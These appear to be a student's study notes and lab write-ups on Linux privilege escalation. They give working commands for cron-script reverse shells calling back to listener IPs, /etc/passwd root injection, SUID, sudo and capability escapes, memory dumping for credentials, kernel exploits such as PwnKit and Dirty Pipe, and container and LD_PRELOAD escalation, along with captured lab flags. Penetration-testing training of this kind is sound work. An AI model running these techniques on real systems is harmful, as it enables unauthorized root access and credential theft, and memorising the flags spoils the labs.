> 🎬 **[ippsec.rocks: "cron"](https://ippsec.rocks/?#cron)** -- boxes where a writable cron job is the privesc path; cross-reference with "writable script"

**Quiz answer (18.3.1):**
- Log file holding cron job activity: **/var/log/syslog**

**18.3.1 VM#1 -- COMPLETE**
- `grep "CRON" /var/log/syslog` revealed `/home/joe/.scripts/user_backups.sh` running as root every minute
- `ls -lah` showed `-rwxrwxrw-` permissions
- Injected `mkfifo /tmp/g` reverse shell via `echo >>` (had to use /tmp/g -- cron had already run the /tmp/f payload as root, making /tmp/f root-owned and undeletable by joe)
- nc listener on 1234, shell landed as uid=0(root)
- Quiz answer: `/var/log/syslog` (no OS{} flag on VM#1 -- task was just to demonstrate root shell)

**18.3.1 VM#2 -- COMPLETE**
- Two cron jobs found: `user_backups.sh` and `/tmp/this_is_fine.sh`
- `/tmp/this_is_fine.sh` was `-rwxrwxrw-` and nearly empty (just shebang) -- overwrote it cleanly with `echo '#!/bin/bash' > /tmp/this_is_fine.sh && echo "mkfifo shell" >> ...`
- Shell landed as uid=0(root)
- Flag in `/root/flag.txt`: `OS{9e0df5dce22d6a78ecfde18e80626eee}`
- Key lesson: scripts dropped in /tmp and forgotten are a classic real-world find; /tmp is always world-writable

#### Tags: #CronJob #ScheduledTasks #ReverseShell #InsecureFilePermissions #Module18

---

#### 18.3.1.1. World-Writable Cron Script: Direct Append (LPE.11)

When the cron script itself (not just a directory it writes to) is world-writable, append a reverse shell directly:

```bash
# Step 1: find writable cron scripts
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/

# Check the script's permissions
ls -la /dmz-backups/backup.sh
# -rwxrwxrwx = world-writable (anyone can append/overwrite)

# Step 2: start listener on Kali
nc -nvlp PWNPO

# Step 3: append reverse shell
echo 'bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1' >> /dmz-backups/backup.sh

# Step 4: wait for root to run the script (crontab shows interval)
# Receive the root reverse shell
```

> 🔁 **Similar to:** the mkfifo technique in the existing 18.3.1 section -- same principle, different payload. Direct bash redirect is simpler when the script is fully writable; mkfifo is useful when you need a named pipe.

**Lab Q&A (LPE.11):**

| Q | Answer |
|---|---|
| Flag via world-writable cron script | **14347a2c977eb84508d3d50691a7ac4b** |

#### Tags: #CronJob #ScheduledTasks #ReverseShell #InsecureFilePermissions #WorldWritable #Module18

---

### 18.3.2 Abusing Password Authentication

If `/etc/passwd` is world-writable (legacy misconfiguration, or sometimes caused by misconfigured automation), you can inject your own root-level user without needing to touch `/etc/shadow`.

**Why this works:** Linux checks `/etc/passwd` first. If a password hash is present in the second field, it is used for authentication and it takes precedence over the corresponding `/etc/shadow` entry. So you can add a user with a known hash and immediately `su` to them.

**Generate a password hash:**
```bash
openssl passwd w00t
# Example output: Fdzt.eqJQ4s0g
```
By default, `openssl passwd` uses the crypt algorithm (DES-based Unix crypt). On newer systems it may output MD5 format instead, but either works for `/etc/passwd` injection.

**Inject a new superuser line:**
```bash
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
Format: `username:hash:UID:GID:comment:home:shell`. UID=0 and GID=0 together equal root.

**Switch to the new user:**
```bash
su root2
# Password: w00t
id
# uid=0(root) gid=0(root) groups=0(root)
```

> 📸 Screenshot: the injected root2 line in /etc/passwd, then `su root2` confirming uid=0

> 🔍 **Worth remembering generally:** world-writable `/etc/passwd` is ancient but still turns up in environments where automation scripts set broad permissions for convenience. The unix-privesc-check tool flags it explicitly -- it is not subtle.



> 🔁 **Similar to:** password hash concepts in [[16. Password Attacks|Module 16]]. You are not cracking anything here; you are injecting a hash you already know the plaintext for.

> 🎬 **[ippsec.rocks: "etc passwd"](https://ippsec.rocks/?#etc%20passwd)** -- boxes exploiting world-writable /etc/passwd or /etc/shadow misconfigurations

**Quiz answer (18.3.2):**
- Hashing algorithm used by default with `openssl passwd`: **crypt** (DES-based Unix crypt algorithm)

**18.3.2 VM#1 -- COMPLETE**
- `/etc/passwd` confirmed `-rw-rw-rw-`
- `openssl passwd w00t` → `5UGFukvbctTC6`
- Injected `root2:5UGFukvbctTC6:0:0:root:/root:/bin/bash` → `su root2` → uid=0(root)
- Quiz answer: `crypt` (no OS{} flag on VM#1 -- task was to demonstrate technique)

**18.3.2 VM#2 -- COMPLETE**
- Same technique: openssl passwd w00t → `IeFDZFw8Ilh3M` → injected root2 → su root2 → uid=0(root)
- Flag in `/root/flag.txt`: `OS{581fdef8acf64f495d004643effd2a77}`

#### Tags: #PasswordAuthentication #etcpasswd #openssl #Module18

---

## 18.4 Insecure System Components

### 18.4.1 Abusing Setuid Binaries and Capabilities

**Real UID vs Effective UID: the core concept**

Normally when you run a binary, it inherits your UID as both the real UID and the effective UID. But when a binary has the SUID (Set-User-ID) bit set, it runs with the file *owner's* effective UID instead. If root owns the binary and it has SUID set, it always runs as root, regardless of who launches it.

You can verify this directly by inspecting `/proc/<PID>/status` while a SUID binary is running:
```bash
grep Uid /proc/<PID>/status
# Uid:    1000    0    0    0
#         real  eff  saved  fs
```
Real UID = 1000 (joe). Effective UID = 0 (root). That is the SUID bit in action.

The SUID flag shows as `s` instead of `x` in the owner's execute position:
```
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
```
Set with `chmod u+s <filename>`.



**Find SUID binaries:**
```bash
find / -perm -u=s -type f 2>/dev/null
```
Compare against the expected list of legitimate SUID binaries for the distro. Anything custom or unusual goes straight to GTFOBins.

**Exploit a non-standard SUID binary (module example: `find`):**
```bash
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```
`-exec` runs a command for each match. `-p` tells bash not to drop the elevated effective UID on startup. The result: a bash session with euid=0 (root), even though joe launched it.

```bash
bash-5.0# id
uid=1000(joe) gid=1000(joe) euid=0(root) groups=...
```

> 📸 Screenshot: SUID find exploit running, bash-5.0# prompt, `id` showing euid=0(root)

> 🔗 **GTFOBins** for SUID exploits: [gtfobins.github.io](https://gtfobins.github.io/) -- filter by "SUID" to find the right command for each binary.

---

**Linux Capabilities**

Capabilities are finer-grained than SUID. Instead of giving a binary full root access, capabilities grant specific privileges, such as raw socket access (`cap_net_raw` for ping), or the ability to change UID (`cap_setuid`). If `cap_setuid` is granted to a scripting language like Perl, that is as powerful as SUID root.

The `+ep` suffix on a capability means it is both **effective** (active now) and **permitted** (can be activated). That combination is dangerous.

**Find binaries with capabilities:**
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
`-r` = recursive from `/`. Look for `cap_setuid+ep`. The module example:
```
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
```

**Exploit cap_setuid on Perl (GTFOBins):**
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
Calls `setuid(0)` to become root, then spawns `/bin/sh`. Since Perl has `cap_setuid`, the setuid call succeeds.

```bash
# id
uid=0(root) gid=1000(joe) groups=...
```

> 📸 Screenshot: `getcap -r / 2>/dev/null` output showing perl with cap_setuid+ep, then root shell

> 🔗 **GTFOBins** for capabilities: [gtfobins.github.io](https://gtfobins.github.io/) -- filter by "Capabilities".

**cap_dac_override -- bypass file read/write permissions:**

`cap_dac_override` lets the binary ignore DAC (Discretionary Access Control) checks entirely: it can read and write any file on the system, permissions notwithstanding. The HTB example: `vim.basic = cap_dac_override+eip`.

```bash
find /usr/bin/ /usr/sbin/ /usr/local/bin/ /usr/local/sbin/ -type f -exec getcap {} \;
# /usr/bin/vim.basic = cap_dac_override+eip
```

Exploit: open `/etc/passwd` in vim, delete the `x` from root's password field to clear it, save, then `su root` with no password:

```bash
/usr/bin/vim.basic /etc/passwd
# Find:  root:x:0:0:root:/root:/bin/bash
# Edit:  root::0:0:root:/root:/bin/bash    (remove the x)
# :wq to save

su root
# No password -- shadow entry bypassed
cat /root/flag.txt
```

> 🔍 **Worth remembering generally:** capabilities and SUID are different mechanisms but the search pattern is identical: find a binary with elevated rights, look it up on GTFOBins, run the payload. `getcap -r /` for capabilities; `find / -perm -u=s -type f` for SUID.

> 🎬 **[ippsec.rocks: "suid"](https://ippsec.rocks/?#suid)** -- boxes where a non-standard SUID binary is the privesc vector
> 🎬 **[ippsec.rocks: "capabilities"](https://ippsec.rocks/?#capabilities)** -- boxes exploiting Linux capability misconfigurations

**Quiz answers (18.4.1):**
- Utility to manually search for misconfigured capabilities: **`getcap`** (full path: `/usr/sbin/getcap`)

**18.4.1 VM#1 -- COMPLETE**
- Quiz answer: `getcap` (command name only, not full path)
- Task: demonstrate root shell via SUID binary abuse (no OS{} flag on VM#1)

**18.4.1 VM#2 -- COMPLETE**
- `getcap -r / 2>/dev/null` found `/usr/bin/gdb = cap_setuid+ep`
- Exploit (GTFOBins): `gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit`
- Shell spawned with uid=0(root) gid=1000(joe) -- UID changed, GID stays joe (capability only changes UID)
- Flag in `/root/flag.txt`: `OS{4c2b0905e576c6e46289187d9a63904c}`

#### Tags: #SUID #eUID #Capabilities #getcap #GTFOBins #Module18

---

### 18.4.2 Abusing Sudo

`sudo -l` is one of the first things to run. If you know any user's password (or if NOPASSWD entries exist in sudoers), you can check exactly which commands that user can run as root.

**Check sudo permissions:**
```bash
sudo -l
```
Example output:
```
User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

**Not all sudo entries are immediately exploitable.** Two things can block you:
1. The allowed command might only permit specific flags (like `crontab -l`, which just lists -- you cannot edit).
2. AppArmor or SELinux may block the exploit technique even if sudo grants access to the binary.

**Checking for AppArmor interference:**
```bash
cat /var/log/syslog | grep <binary_name>
# Look for: apparmor="DENIED" operation="exec"
```
If AppArmor is blocking, move to the next allowed binary rather than trying to fight it.

Check AppArmor status (as root if available):
```bash
aa-status
```

**When sudo works -- apt-get example (GTFOBins option a):**
```bash
sudo apt-get changelog apt
# When the 'less' pager opens:
!/bin/sh
```
`apt-get changelog` invokes `less` to display the changelog. `less` lets you run shell commands with `!`. That shell inherits root from the sudo context.

> 📸 Screenshot: `sudo -l` output, then `apt-get changelog apt` dropping into less, then `!/bin/sh` giving root shell with `id` confirming uid=0

> 🔗 **GTFOBins** for sudo: [gtfobins.github.io](https://gtfobins.github.io/) -- filter by "Sudo". Covers apt, vim, nano, find, python, perl, git, man, less, more, and dozens more.

> 🔍 **Worth remembering generally:** always look up every allowed sudo binary on GTFOBins, even ones that seem harmless. `less`, `more`, `man`, `git`, `nano`, `vim` -- all have shell escape techniques.

> 🎬 **[ippsec.rocks: "sudo"](https://ippsec.rocks/?#sudo)** -- boxes where sudo misconfiguration is the privesc vector; search "gtfobins" there too

**sudo -u#-1 bypass -- CVE-2019-14287 (sudo < 1.8.28):**

On sudo versions below 1.8.28, specifying user ID `-1` (or its unsigned equivalent `4294967295`) is interpreted as UID 0 (root) by the underlying `setresuid()` call. This bypasses explicit `(ALL, !root)` sudoers entries that are meant to block running as root.

```bash
sudo -l
# User may run: (ALL, !root) /bin/ncdu

sudo --version
# Sudo version 1.8.25p1   <-- vulnerable

sudo -u#-1 /bin/ncdu
# Drops into ncdu as UID 0, despite the !root restriction
```

Inside ncdu, press `b` to spawn a shell in the current directory:
```
b          # spawns /bin/sh as root
cat /root/flag.txt
```

> 🔍 **Worth remembering generally:** `(ALL, !root)` in sudoers looks like it blocks root escalation. On vulnerable sudo versions it does not. Always check `sudo --version` when you see `!root` entries -- anything below 1.8.28 is exploitable with `-u#-1`.

> 🔗 **GTFOBins -- ncdu:** [gtfobins.github.io/gtfobins/ncdu/](https://gtfobins.github.io/gtfobins/ncdu/)

> 🔗 **GTFOBins -- busctl (another pager-escape tool):** `sudo busctl --show-machine` opens a `less`-style pager; `!/bin/sh` drops a root shell. Same pattern as apt-get changelog.

> 🔁 **Similar to:** UAC token filtering and service start rights in [[17. Windows Privilege Escalation#17.2.3 Unquoted Service Paths|17.2.3 Unquoted Service Paths]]. Permission boundaries are sometimes tighter than they appear; you have to find where the actual hole is, not just the surface permission.

**sudo gcore — Memory Dump for Credential Extraction (HTB/PG supplement — from Pelican):**

`gcore` is a GNU debugger utility that dumps the complete memory of a live process to a core file. With sudo access, you can dump any process — including root-owned ones. If a root process holds credentials in memory (a password manager, a daemon reading a secrets file at startup, etc.), those credentials may appear in plaintext in the dump.

```bash
# 1. Find a root process with likely credentials in memory:
ps aux | grep root
# Look for: password-store, keepass, anything credential-adjacent

# 2. Dump it:
sudo gcore <PID>
# → Saved corefile core.<PID>
# Ignore "No such file or directory" warnings — those are just missing debug symbols.

# 3. Extract credentials:
strings core.<PID> | grep -i password
strings core.<PID> | grep -A 1 "Password:"
# -A 1 prints the line after the match — the actual password is often on the next line

# 4. Use the extracted creds:
su root   # or ssh, evil-winrm, etc.
```

**Pelican (PG Practice) example:**
- `sudo -l` → `(ALL) NOPASSWD: /usr/bin/gcore`
- `ps aux` → `root 490 /usr/bin/password-store`
- `sudo gcore 490` → `core.490`
- `strings core.490 | grep -A 1 "Password:"` → `001 Password: root:` / `ClogKingpinInning731`
- `su root` → `uid=0(root)`

> 🔗 **See also:** [[PrivEsc Linux - Sudo]] runbook stage note for the decision table and full technique reference.

**Quiz answers (18.4.2):**
- Kernel module enforcing MAC policies: **AppArmor** (Mandatory Access Control; SELinux serves the same role on RHEL/CentOS)

**18.4.2 VM#1 -- COMPLETE**
- Quiz answer: `AppArmor` (no OS{} flag on VM#1)

**18.4.2 VM#2 -- COMPLETE**
- `sudo -l` revealed: `/usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/gcc`
- Different from module example (apt-get) -- this VM has gcc
- GTFOBins sudo/gcc: `sudo gcc -wrapper /bin/sh,-s .` → uid=0(root)
- Flag in `/root/flag.txt`: `OS{0b6427c20ed7cead6c83a8d61625571c}`
- Key lesson: always check GTFOBins for the actual binary on the target -- the lab will vary from module examples

#### Tags: #sudo #AppArmor #GTFOBins #SudoAbuse #Module18

---

### 18.4.3 Exploiting Kernel Vulnerabilities

When nothing else works, or when you spot a very old or unpatched kernel, kernel exploits are an option. They are reliable but carry risk: a mismatch between the exploit and the target can crash the system. Test in a local environment first when possible.

**Step 1: Gather target system info**
```bash
cat /etc/issue
cat /etc/os-release
uname -r          # kernel version e.g. 4.4.0-116-generic
arch              # architecture e.g. x86_64
```
You need all three to narrow the exploit search accurately.

**Step 2: Search for matching exploits on Kali**
```bash
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation" | grep "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
The grep chain filters for version-relevant results. Check the candidates against your exact kernel version and distro.

**Step 3: Inspect the exploit source for compilation instructions**
```bash
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
mv 45010.c cve-2017-16995.c
head cve-2017-16995.c -n 30
```
Look for: which kernel versions are supported, the compilation command, and any special requirements or flags.

**Step 4: Transfer to target and compile there**
```bash
# On Kali:
scp cve-2017-16995.c joe@<TARGET_IP>:

# On target:
gcc cve-2017-16995.c -o cve-2017-16995
file cve-2017-16995     # verify ELF 64-bit
./cve-2017-16995
```
Compiling on the target avoids cross-compilation library mismatches. If gcc is not available on the target, cross-compile on Kali matching the exact target architecture.

```bash
# id
uid=0(root) gid=0(root) groups=0(root),1001(joe)
```

> 📸 Screenshot: kernel exploit output showing "credentials patched, launching shell..." then `id` confirming uid=0

> 🎬 **[ippsec.rocks: "kernel exploit"](https://ippsec.rocks/?#kernel%20exploit)** -- boxes where kernel CVEs are the privesc path; "dirty cow" and "dirty pipe" are common search terms on that page

> 🔍 **Worth remembering generally:** kernel exploits that spawn an interactive shell sometimes need a real TTY to work properly. If you are on a netcat shell and the exploit seems to hang, stabilise the shell first with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and set terminal size before running. Alternatively try via SSH.

> 🔁 **Similar to:** the Windows kernel exploit workflow in [[17. Windows Privilege Escalation#17.3.2 Using Exploits|17.3.2 Using Exploits]]. Same pattern: enumerate system info, match to CVE/exploit, transfer, compile, run. The key lesson there about needing RDP for interactive shell applies here too.

> 🔗 **searchsploit (Exploit-DB):** [exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)

**Dirty Pipe -- CVE-2022-0847 (kernel 5.8 to 5.17):**

A pipe buffer flag bug lets an unprivileged user overwrite read-only file content by splicing data into a pipe. In practice the exploit temporarily patches `/etc/passwd` to clear the root password, giving instant `su root`, then restores the file -- no persistent changes.

```bash
uname -r
# 5.15.0-051500-generic   <-- vulnerable (5.8-5.17)

git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
scp -r CVE-2022-0847-DirtyPipe-Exploits/ user@<TARGET>:~/

# On target:
cd CVE-2022-0847-DirtyPipe-Exploits/
bash compile.sh
./exploit-1
# Backing up /etc/passwd to /tmp/passwd.bak ...
# Setting root password to "piped"...
# Restoring /etc/passwd from /tmp/passwd.bak...
# Done! Popping shell...

cat /root/flag.txt
```

`exploit-1` patches and restores. `exploit-2` sets SUID on `/bin/bash` and gives a persistent SUID shell (`/bin/bash -p`) even after the exploit exits.

> 🎬 **[ippsec.rocks: "dirty pipe"](https://ippsec.rocks/?#dirty%20pipe)** -- boxes exploiting CVE-2022-0847

**Quiz answer (18.4.3):**
- Compiler used to build the exploit binary: **gcc**

**18.4.3 VM#1 -- COMPLETE**
- Ubuntu 16.04.4, kernel 4.4.0-116-generic, x86_64
- `searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"` → `45010.c` (CVE-2017-16995)
- Renamed to `cve-2017-16995.c`, scp'd to target, compiled with gcc, ran exploit
- Output: `[*] credentials patched, launching shell...` → uid=0(root)
- Quiz answer: `gcc` (no OS{} flag on VM#1)

**18.4.3 VM#2 -- COMPLETE**
- Ubuntu 16.04.4, kernel 4.4.0-116-generic, x86_64 (same as VM#1)
- SUID binary hunt: `find / -perm -u=s -type f 2>/dev/null`
- Checked versions: `pkexec --version` → 0.105; `snap --version` → snapd 2.29.4.2; `ntfs-3g --version` → 2015.3.14AR.1
- Tried dirty_sock (CVE-2019-7304) for snapd 2.29.4.2 via `searchsploit snapd` → 46362.py. Exploit reported "Success" both runs but install hook silently failed to create the dirty_sock user (confirmed via `grep dirty_sock /etc/passwd` returning nothing). Likely snap confinement or timing issue in this lab environment.
- Pivoted to pkexec 0.105: CVE-2021-4034 (PwnKit) -- not in searchsploit default db, cloned from GitHub: `git clone https://github.com/berdav/CVE-2021-4034.git`
- Pre-compiled on Kali linked against glibc 2.34 which Ubuntu 16.04 doesn't have. Transferred source files with `scp -r`, compiled natively on target with `gcc -Wall --shared -fPIC -o pwnkit.so pwnkit.c && gcc -Wall cve-2021-4034.c -o cve-2021-4034-local`
- Ran `./cve-2021-4034-local` → immediate root shell, uid=0(root)
- Flag: `cat /root/flag.txt` → **OS{afdd54c4978e0e34014e82e75cf4284f}**

> 📸 Screenshot: `find / -perm -u=s -type f 2>/dev/null` output showing pkexec, snap-confine, ntfs-3g
> 📸 Screenshot: `./cve-2021-4034-local` → root shell and flag

> 🔍 Worth remembering generally: always compile exploits natively on the target if the pre-built binary throws a glibc version mismatch. The source is already on disk after scp -- just run gcc there.

> 🔁 Similar to: [[18. Linux Privilege Escalation#18.4.3 Exploiting Kernel Vulnerabilities|18.4.3 VM#1]] -- same "compile on target" pattern, different CVE.

**18.4.3 VM#3 -- COMPLETE**
- Kali Linux container, student/lab via SSH port 2222 (192.168.236.52)
- No /var/log/syslog, no journald -- checked /var/log/ directly: found `cron.log`
- `cat /var/log/cron.log` → "running the archiver" every minute
- `find / -name "*archiv*" 2>/dev/null` → `/var/archives/archive.sh` and `/etc/cron.hourly/archiver`
- `ls -lah /var/archives/archive.sh` → `-rwxrwxrwx` (world-writable)
- `/etc/cron.hourly/archiver` calls `archive.sh`; comment says it was also added to personal crontab to run every minute
- Injected reverse shell: `echo 'bash -i >& /dev/tcp/192.168.45.223/4444 0>&1' >> /var/archives/archive.sh`
- Shell landed on nc listener within 60 seconds as root
- Flag: `cat /root/flag.txt` → **OS{c5fb9839877a429f39607f59e58d4733}**

> 📸 Screenshot: `ls -lah /var/archives/archive.sh` showing -rwxrwxrwx
> 📸 Screenshot: nc listener receiving root shell and flag

> 🔍 Worth remembering generally: when /var/log/syslog doesn't exist, check /var/log/cron.log directly. Container environments often skip syslog/journald but cron still writes its own log file.

**18.4.3 VM#4 -- COMPLETE**
- Kali Linux container, student/lab via SSH port 2222 (192.168.236.52)
- `find / -writable -type f 2>/dev/null | grep -v proc` → `/etc/passwd` world-writable
- `openssl passwd w00t` → `RDpuQgpRTx0ks`
- `echo 'root2:RDpuQgpRTx0ks:0:0:root:/root:/bin/bash' >> /etc/passwd`
- `su root2` with password `w00t` → root shell
- Flag: `cat /root/flag.txt` → **OS{4768b2c127c0c5a3f26728237e8c5e77}**

> 📸 Screenshot: `find / -writable -type f` output showing /etc/passwd
> 📸 Screenshot: `su root2` → root shell prompt and flag

**18.4.3 VM#5 -- COMPLETE**
- Ubuntu container, student/lab via SSH port 2222 (192.168.236.52)
- `find / -perm -u=s -type f 2>/dev/null` → non-standard SUID binaries: `/usr/bin/find`, `/usr/bin/gawk`, `/usr/bin/vim.basic`
- Used `find` GTFOBins SUID entry: `find . -exec /bin/sh -p \; -quit`
- `-p` flag on `/bin/sh` preserves the effective UID (root); shell spawns as euid=0
- `id` → uid=1000(student) gid=1000(student) **euid=0(root)**
- Flag: `cat /root/flag.txt` → **OS{a5f462ceb1f60973d7824b84299a2829}**

> 📸 Screenshot: `find / -perm -u=s -type f 2>/dev/null` showing find, gawk, vim.basic
> 📸 Screenshot: `find . -exec /bin/sh -p \; -quit` → euid=0 shell and flag

> 🔍 Worth remembering generally: when multiple non-standard SUID binaries are present, `find` is the fastest GTFOBins exploit (one-liner, no interactive shell required). Check gawk and vim as backups.
> 🔁 Similar to: [[18. Linux Privilege Escalation#18.4.1 Abusing Setuid Binaries and Capabilities|18.4.1 VM#1+VM#2]] -- same SUID search, different binary.

#### Tags: #KernelExploit #searchsploit #gcc #CVE #Module18

---

---

## 18.5 HTB Supplementary Techniques

> 🔖 *These sections cover techniques from the HTB Linux Privilege Escalation module that have no direct equivalent in the Offsec Module 18 content. All tested against HTB Academy VMs.*

---

### 18.5.1 Path Abuse

When your PATH contains a non-standard writable directory (like `/tmp`), you can plant a malicious binary with the same name as a command a root-owned script calls without a full path, and it gets executed instead of the real one.

**Check your PATH:**
```bash
echo $PATH
# /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp
```
Any writable directory in the list is a candidate. `/tmp` appearing here is the classic red flag. Compare against the standard Debian/Ubuntu PATH; anything extra is worth probing.

**The attack:**
1. A root-owned cron script or SUID binary calls something like `backup` (no full path)
2. PATH is searched left to right; if your writable dir comes before `/usr/bin`, your binary runs first
3. Plant a reverse shell named after the expected command

```bash
echo '#!/bin/bash' > /tmp/backup
echo 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1' >> /tmp/backup
chmod +x /tmp/backup
# nc -nvlp 4444 on Kali, then wait for the cron interval
```

> 🔍 **Worth remembering generally:** PATH abuse is easy to miss because you are looking at an environment variable, not a file. Always `echo $PATH` in the first 60 seconds on a new shell.

> 🔁 **Similar to:** DLL hijacking on Windows [[17. Windows Privilege Escalation#17.2.2 DLL Hijacking|17.2.2 DLL Hijacking]]. Same search-order abuse, different platform.

#### Tags: #PathAbuse #PrivEsc #Module18

---

### 18.5.2 Escaping Restricted Shells

Restricted shells (usually `rbash`) block: `cd`, setting PATH, output redirection, commands with `/`. Spotting one: the shell prompt may say `rbash`, or `cd /tmp` returns "bash: cd: restricted".

**Method 1 -- SSH with bash --noprofile:**
```bash
ssh htb-user@<TARGET> -t "bash --noprofile"
# Press Ctrl+C to dismiss the startup script if it interrupts
# You now have an unrestricted bash
ls
cat flag.txt
```
`-t` forces a pseudo-TTY allocation. `bash --noprofile` skips the startup file that enforces the restriction. This is the fastest bypass when you have SSH credentials.

**Method 2 -- Editor shell escape:**
```
vi                   # if vi is available
:set shell=/bin/bash
:shell               # drops you into unrestricted bash
```
In nano: `Ctrl+R` then `Ctrl+X` then `reset; bash 1>&0 2>&0`

**Method 3 -- Available scripting language:**
```bash
python3 -c 'import os; os.execv("/bin/bash", ["/bin/bash"])'
perl -e 'exec "/bin/bash"'
awk 'BEGIN {system("/bin/bash")}'
```

**Method 4 -- Copy bash to an allowed dir:**
```bash
cp /bin/bash /home/user/bin/bash
/home/user/bin/bash --noprofile
```

> 📸 Screenshot: `ssh user@target -t "bash --noprofile"` then Ctrl+C then unrestricted bash prompt running `cat flag.txt`

> 🔗 **VK9 Security -- Linux Restricted Shell Bypass:** [vk9-sec.com/linux-restricted-shell-bypass/](https://vk9-sec.com/linux-restricted-shell-bypass/)
> 🔗 **HackTricks -- Bypass Bash Restrictions (GitHub):** [github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md)

#### Tags: #RestrictedShell #rbash #ShellEscape #Module18

---

### 18.5.3 Privileged Groups

Some groups grant near-root access without appearing in sudo. Always check `id` early.

| Group | What it grants |
|-------|----------------|
| `lxd` | Init/exec privileged containers: effectively full root on the host |
| `docker` | Mount host filesystem into containers: effectively root |
| `adm` | Read all files under `/var/log/` |
| `disk` | Raw block device access via `debugfs` |
| `shadow` | Read `/etc/shadow`, crack hashes offline |

**adm group: credential and flag hunting in /var/log/:**
```bash
id
# groups=...,4(adm)

grep -rw "password\|flag\|secret" /var/log 2>/dev/null
```
Apache access logs sometimes hold credentials in URL query strings. URL-decode any `%20` (space), `%3D` (=), etc. to read the value:
```
# /var/log/apache2/access.log:
# GET /flag%20=%20ch3ck_th0se_gr0uP_m3mb3erSh1Ps! HTTP/1.1
# flag = ch3ck_th0se_gr0uP_m3mb3erSh1Ps!
```

> 📸 Screenshot: `grep -rw "flag" /var/log` returning an Apache access log line with the credential in the URL

---

**lxd group: container escape:**

```bash
# 1. Import an Alpine image (pre-staged or pulled)
lxc image import ./alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpine-container
lxc image list    # verify

# 2. Init a privileged container, mount host / to /mnt/root inside it
lxc init alpine-container privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

# 3. Start and exec into the container
lxc start privesc
lxc exec privesc /bin/sh

# 4. Full host root access through the mount
cat /mnt/root/root/flag.txt
```

`security.privileged=true` disables user namespace isolation, so uid=0 inside the container maps to uid=0 on the host. The disk device mount exposes the entire host filesystem with those root permissions.

> 📸 Screenshot: `lxc exec privesc /bin/sh` shell prompt, then `cat /mnt/root/root/flag.txt`

> 🔗 **HackTricks -- LXD Privilege Escalation (GitHub):** [github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md)

---

**docker group: container escape:**

Docker daemon runs as root. Any user in the `docker` group can mount the host filesystem into a container and chroot into it.

```bash
id
# groups=...,118(docker)

docker image ls     # find an available image

docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
# root@<container_id>:/# id
# uid=0(root) gid=0(root)

cat /root/flag.txt
```

Command breakdown:
- `-H unix:///var/run/docker.sock` -- connect to Docker daemon via socket
- `run -v /:/mnt` -- mount host root at /mnt inside the container
- `--rm` -- auto-remove container on exit
- `chroot /mnt bash` -- pivot root to the host filesystem and start bash

> 📸 Screenshot: `docker image ls`, then the run command, then `whoami` and `cat /root/flag.txt`

> 🔗 **GTFOBins -- docker:** [gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

> 🔍 **Worth remembering generally:** `lxd` and `docker` group membership is just as dangerous as being in `sudo`. They get overlooked because the word "sudo" isn't there. `id` at the start of every engagement, every time.

#### Tags: #PrivilegedGroups #lxd #docker #adm #ContainerEscape #Module18

---

### 18.5.4 Shared Libraries and LD_PRELOAD

When `sudo -l` shows `env_keep+=LD_PRELOAD`, sudo preserves that variable into root context. `LD_PRELOAD` tells the dynamic linker to load a custom shared library before any other, including before the allowed binary initialises. Your `_init()` function runs as root.

**1. Spot it:**
```bash
sudo -l
# Matching Defaults entries:
#     env_keep+=LD_PRELOAD
# User may run: (root) NOPASSWD: /usr/bin/openssl
```

**2. Write the malicious shared library (`root.c`):**
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");  // prevent infinite loop on child processes
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

**3. Compile it:**
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
- `-fPIC` -- position independent code, required for shared objects
- `-shared` -- produce a .so rather than an executable
- `-nostartfiles` -- don't link standard C startup; `_init` is our custom entry point

**4. Load it via the allowed sudo command:**
```bash
sudo LD_PRELOAD=./root.so /usr/bin/openssl
# root@NIX02:~# id
# uid=0(root) gid=0(root)
```

> 📸 Screenshot: `sudo -l` showing env_keep+=LD_PRELOAD, then compiling root.so, then the sudo command spawning a root shell

> 🔍 **Worth remembering generally:** `env_keep+=LD_PRELOAD` is a well-known misconfiguration and a classic exam find. It only matters when the variable is preserved into a privileged context. A plain `LD_PRELOAD` as a normal user does nothing special.

> 🔁 **Similar to:** [[18. Linux Privilege Escalation#18.5.5 Shared Object Hijacking|18.5.5 Shared Object Hijacking]] -- both abuse the dynamic linker. LD_PRELOAD is blunter (loads before everything else); object hijacking is more targeted (replaces a specific missing .so in the search path).

